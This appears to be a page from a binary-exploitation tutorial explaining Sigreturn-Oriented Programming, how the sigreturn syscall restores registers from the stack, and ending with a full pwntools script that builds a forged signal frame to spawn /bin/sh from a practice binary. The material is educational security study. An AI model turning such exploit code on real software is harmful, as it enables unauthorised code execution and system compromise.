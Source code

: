 # SROP - Sigreturn-Oriented Programming





## Basic Information

**`Sigreturn`** is a special **syscall** that's primarily used to clean up after a signal handler has completed its execution. Signals are interruptions sent to a program by the operating system, often to indicate that some exceptional situation has occurred. When a program receives a signal, it temporarily pauses its current work to handle the signal with a **signal handler**, a special function designed to deal with signals.

After the signal handler finishes, the program needs to **resume its previous state** as if nothing happened. This is where **`sigreturn`** comes into play. It helps the program to **return from the signal handler** and restores the program's state by cleaning up the stack frame (the section of memory that stores function calls and local variables) that was used by the signal handler.

The interesting part is how **`sigreturn`** restores the program's state: it does so by storing **all the CPU's register values on the stack.** When the signal is no longer blocked, **`sigreturn` pops these values off the stack**, effectively resetting the CPU's registers to their state before the signal was handled. This includes the stack pointer register (RSP), which points to the current top of the stack.

{% hint style="danger" %}
Calling the syscall **`sigreturn`** from a ROP chain and **adding the registry values** we would like it to load in the **stack** it's possible to **control** all the register values and therefore **call** for example the syscall `execve` with `/bin/sh`.
{% endhint %}

Note how this would be a **type of Ret2syscall** that makes much easier to control params to call other Ret2syscalls:

{% content-ref url="rop-syscall-execv.md" %}
[rop-syscall-execv.md](rop-syscall-execv.md)
{% endcontent-ref %}

For a better explanation check also:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Example

You can [**find an example here**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop), although this is the final exploit from there:

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```

## References

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)





